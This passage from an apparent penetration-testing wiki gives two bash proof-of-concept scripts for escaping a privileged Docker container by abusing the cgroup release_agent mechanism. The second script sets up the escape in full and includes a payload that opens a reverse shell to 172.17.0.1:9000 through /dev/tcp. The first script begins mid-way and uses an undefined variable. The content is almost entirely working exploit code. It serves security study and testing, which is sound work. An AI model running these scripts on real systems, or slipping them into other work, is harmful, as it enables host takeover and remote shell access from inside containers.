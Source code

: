 ```bash

# Finds path of OverlayFS mount for container
# Unless the configuration explicitly exposes the mount point of the host filesystem
# see https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html
t=`sed -n 's/overlay \/ .*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

# Sets release_agent to /path/payload
touch /o; echo $t/c > $d/release_agent

# Creates a payload
echo "#!/bin/sh" > /c
echo "ps > $t/o" >> /c
chmod +x /c

# Triggers the cgroup via empty cgroup.procs
sh -c "echo 0 > $d/w/cgroup.procs"; sleep 1

# Reads the output
cat /o
```
{% endcode %}

#### Privileged Escape Abusing release\_agent - PoC2

{% code title="Second PoC" %}
```bash
# On the host
docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash

# Mounts the RDMA cgroup controller and create a child cgroup
# This technique should work with the majority of cgroup controllers
# If you're following along and get "mount: /tmp/cgrp: special device cgroup does not exist"
# It's because your setup doesn't have the RDMA cgroup controller, try change rdma to memory to fix it
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
# If mount gives an error, this won't work, you need to use the first PoC

# Enables cgroup notifications on release of the "x" cgroup
echo 1 > /tmp/cgrp/x/notify_on_release

# Finds path of OverlayFS mount for container
# Unless the configuration explicitly exposes the mount point of the host filesystem
# see https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

# Sets release_agent to /path/payload
echo "$host_path/cmd" > /tmp/cgrp/release_agent

#For a normal PoC =================
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
#===================================
#Reverse shell
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/172.17.0.1/9000 0>&1" >> /cmd
chmod a+x /cmd
#===================================

# Executes the attack by spawning a process that immediately ends inside the "x" child cgroup
# By creating a /bin/sh process and writing its PID to the cgroup.procs file in "x" child cgroup directory
# The script on the host will execute after /bin/sh exits 
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
